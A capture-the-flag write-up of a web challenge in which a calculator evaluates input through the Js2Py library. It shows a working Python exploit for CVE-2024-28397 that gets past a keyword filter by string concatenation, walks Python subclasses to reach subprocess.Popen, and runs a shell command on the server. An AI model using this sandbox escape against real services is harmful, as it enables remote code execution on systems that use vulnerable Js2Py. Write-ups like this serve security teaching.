


# Web/Retro Calculator

## Description

This is my first calculator ever, and it might have a 0day!!!

## Challenge Overview



In this challenge we were given a simple calculator which would allow us to do some numerical calculation. Ananlyzing the request it is sending in BurpSuite we see that it is sending `inputs` in a `POST` request at `/results`.



In order to make it easy to interact with the application, I made a simple script to send whatever inputs needed.

script.py
```py
import requests

baseURL = "" # Your instance url (like https://4d64da08e7dd80cc9dd2bdd1.deadsec.quest)
def result(inputs):
    url = baseURL + "/result"
    sendJSON = {"inputs": inputs}
    r = requests.post(url, json=sendJSON)
    return r
```

Now we can easily send whatever we need as our input. 

The first intuition I had in this challenge was that it might be calculating the answer in an `eval` and we might be able to somehow execute our code in there. But after trying to send a number of things, I found that certain things were blocked. Like we could not send `eval` and there were many such words and the response would be `Hacking Attempts!`. 

Finally I had tried sending `Object.getOwnPropertyNames(this)` and it finally returned something.
```json
{'result': "dict_keys(['true', 'false', 'null', 'undefined', 'Infinity', 'NaN', 'console', 'String', 'Number', 'Boolean', 'RegExp', 'Math', 'Date', 'Object', 'Function', 'Array', 'Int8Array', 'Uint8Array', 'Uint8ClampedArray', 'Int16Array', 'Uint16Array', 'Int32Array', 'Uint32Array', 'Float32Array', 'Float64Array', 'ArrayBuffer', 'parseFloat', 'parseInt', 'isFinite', 'isNaN', 'escape', 'unescape', 'encodeURI', 'decodeURI', 'encodeURIComponent', 'decodeURIComponent', 'Error', 'EvalError', 'TypeError', 'RangeError', 'ReferenceError', 'SyntaxError', 'URIError', 'eval', 'JSON', 'this', 'window', 'PyJsEvalResult'])", 'status': 'success'}
```

Here, `PyJsEvalResult` was interesting. After googling a bit, one of my teammates found [PiotrDabkowski/Js2Py](https://github.com/PiotrDabkowski/Js2Py) repository. This is what the server was using to calculate our answers and there was a recent exploit in this that gave could allow remote code execution.

[CVE-2024-28397](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape)

We simply had to use the exploit given here, [poc.py](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py) to get the rce. 

But when we sent the exploit, the server would simply respond with `Hacking Attempts!` which meant there be certain words in the exploit that were blocked.

The bypass we found for this filter was to use string concatenation. `eval` was blocked but if we sent it as `this['e' + 'val']`, it would work. That space is important as `'e'+'val'` was still blocked but but when I sent `'e' + 'val'`, it worked (I don't exactly know why).

## Exploit

Thus for our final exploit we used a script to find out all the words in the exploit that were blocked and then used the above technique to bypass the filter and obtained RCE.

exploit.py
```py
import requests

baseURL = "" # Your instance url (like https://4d64da08e7dd80cc9dd2bdd1.deadsec.quest)
def result(inputs):
    url = baseURL + "/result"
    sendJSON = {"inputs": inputs}
    r = requests.post(url, json=sendJSON)
    return r

exploit = """
let cmd = "ca" + "t /fla" + "g.txt"
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o['_' + '_su' + 'bcl' + 'asses__']()) {
        let item = o['_' + '_s' + 'ubc' + 'lasses__']()[i]
        if(item.__module__ == "subpr" + "ocess" && item.__name__ == "Po" + "pen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
"""

# Code for checking the blocked words
# words = exploit.split()
# words = set(words)
# blocked = list()
# for word in words:
#     # print("Exploit:", word)
#     res = result(word).json()
#     if res["result"].lower() == "hacking attempts!":
#         blocked.append(word)

# print(blocked)

res = result(exploit).json()
if res["result"].lower() == "hacking attempts!":
    print("Failed")
else:
    print(res)
```